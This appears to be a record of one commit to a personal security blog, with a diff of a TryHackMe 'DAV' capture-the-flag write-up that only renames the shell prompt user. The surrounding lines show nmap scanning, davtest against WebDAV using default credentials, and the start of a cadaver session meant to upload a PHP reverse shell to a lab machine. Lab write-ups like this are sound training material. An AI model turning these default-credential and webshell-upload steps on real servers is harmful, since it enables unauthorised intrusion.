

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-09-17-dav-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 551 px. Shown: the part 152-1112 px from the top of the window at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-09-17-dav-writeup.md

````diff
--- a/_posts/2020-09-17-dav-writeup.md
+++ b/_posts/2020-09-17-dav-writeup.md
@@ -26,7 +26,7 @@ We can upload and execute php shell. www-data can execute cat as sudo so we can
 ### Enumeration
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
+┌─[root@parrot]─[~/Desktop/tryhackme/DAV]
 └──╼ $nmap -sC -sV 10.10.229.29
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-17 15:20 IST
 Nmap scan report for 10.10.229.29
@@ -59,7 +59,7 @@ So let's run davtest to see what we can upload
 ![creds](/assets/img/dav/defaultcreds.png)
 
 ```bash
-┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
+┌─[root@parrot]─[~/Desktop/tryhackme/DAV]
 └──╼ $davtest -url http://10.10.229.29/webdav/ -auth wampp:xampp
 ********************************************************
  Testing DAV connection
@@ -122,7 +122,7 @@ Php is uploadable and executable.
 so we are now going to upload a reverse shell.
 
 ```bash
-┌─[✗]─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
+┌─[✗]─[root@parrot]─[~/Desktop/tryhackme/DAV]
 └──╼ $cadaver http://10.10.229.29/webdav/
 Authentication required for webdav on server `10.10.229.29':
 Username: xampp
````
